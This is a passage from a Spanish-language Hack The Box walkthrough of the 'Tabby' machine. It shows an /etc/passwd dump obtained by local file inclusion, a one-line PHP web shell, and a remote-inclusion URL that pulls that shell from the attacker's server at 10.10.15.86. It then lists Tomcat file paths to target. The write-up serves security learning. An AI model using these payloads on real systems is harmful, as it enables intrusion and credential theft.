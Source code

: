 ```bash
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Perfecto, tenemos **Local** (vemos un usuario **ash**), probemos **Remote**. Primero creemos un archivo que nos permita ejecutar comandos en el sistema por medio de un argumento.

```bash
─╼ $ cat shxcx.php

<?php shell_exec($_GET['xmd']); ?>
```

Ahora montamos un servidor web rápidamente con python: `$ python3 -m http.server` y desde la URL le indicamos:

```html
http://megahosting.htb/news.php?file=http://10.10.15.86:8000/shxcx.php?xmd=pwd
```

Pero no obtenemos respuesta, por lo tanto nos quedaremos con el *Local File Inclusion*.

...

Podemos revisar procesos en el directorio `/proc/...` pero no tenemos nada relevante.

#### Puerto 8080

(Esta imagen se me olvido tomarla, buscando en otros writeups [la encontre perfecta acá :)](http://www.whatinfotech.com/hackthebox-tabby-writeup/))

![pagetomcat](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagetomcat.png)

Nos topamos con la página por default de **tomcat**, veamos que nos cuenta... Varias cosas interesantes:

| Descripción      | Ruta          |
| ---------------- |:------------- |
| Rules            | /usr/share/doc/tomcat9-common/RUNNING.txt.gz |
| CATALINA_HOME    | /usr/share/tomcat9                           |
| CATALINA_BASE    | /var/lib/tomcat9                             |
| Local filesystem | /var/lib/tomcat9/webapps/ROOT/index.html     |
| Users            | /etc/tomcat9/tomcat-users.xml                |

Tenemos esa "estructura" de archivos, la más interesante claramente es la que relaciona **Users**, usando el LFI para leer el contenido no obtenemos ninguno... El archivo **index.html** si nos responde, pero es la misma información que estamos viendo en la página :)
